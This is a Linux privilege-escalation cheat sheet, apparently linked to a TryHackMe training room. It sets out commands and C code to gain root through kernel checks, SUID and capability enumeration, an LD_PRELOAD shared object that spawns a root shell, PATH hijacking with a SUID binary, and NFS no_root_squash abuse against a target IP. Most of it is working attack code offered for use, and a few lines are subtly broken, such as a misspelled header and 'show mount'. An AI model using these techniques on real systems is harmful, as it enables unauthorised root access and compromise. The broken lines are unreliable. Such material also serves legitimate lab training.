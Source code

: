 # Linux Privilege Escalation

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

## Check for Kernel Exploits

```
uname -r
```
**************************************
## Check for SUID or SGID Bits Set
```
find / -type f -perm -04000 -ls 2>/dev/null
```
SUID Only:
```
find / -perm -u=s -type f 2>/dev/null
```
**************************************
## Check Capabilities
```
getcap -r / 2>/dev/null
```
**************************************
## Leverage LD_PRELOAD

Check for LD_PRELOAD (with env_keep option)
```
sudo -l
```

Write a simple C code compiled as a share object (.so extension) file

* The C code will simply spawn a root shell and can be written as follows:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Save this code as shell.c and compile it using gcc into a shared object file using the following parameters
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Run the program by specifying the LD_PRELOAD option, as follows:
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
**************************************
## PATH

```
echo $PATH
```
* What folders are located under $PATH?
* Does your current user have write privileges for any of these folders?
* Can you modify $PATH?
* Is there a script/application you can start that will be affected by this vulnerability?

Example Script: 
```
#include<unlistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("[BINARY]");
}
```
```
gcc path_exp.c -o path -w
```
```
chmod u+s path
```

Search for writable directories:
```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```
To make a writable directory under $PATH:
```
export PATH=/tmp:$PATH
```
```
cd /tmp
```
```
echo "/bin/bash/" > [BINARY]
```
```
chmod 777 [BINARY]
```
```
./path
```
**************************************
## Network File Sharing (NFS)

If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
```
cat /etc/exports
```

Enumerate mountable shares:
```
show mount -e [TARGET-IP]
```

Mount one of the “no_root_squash” shares to attack machine and start building executable:
```
mkdir /tmp/[YOUR-DIRECTORY]
```
```
mount -o rw [TARGET-IP]:[SHARE-DIRECTORY] /tmp/[YOUR-DIRECTORY]
```

Set SUID bits with a simple executable that will run /bin/bash on the target system: (nfs.c)
```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Compile the code:
```
gcc nfs.c -o nfs -w
```
```
chmod +s nfs
```
```
./nfs
```

**************************************
## Reference
* https://tryhackme.com/room/linprivesc
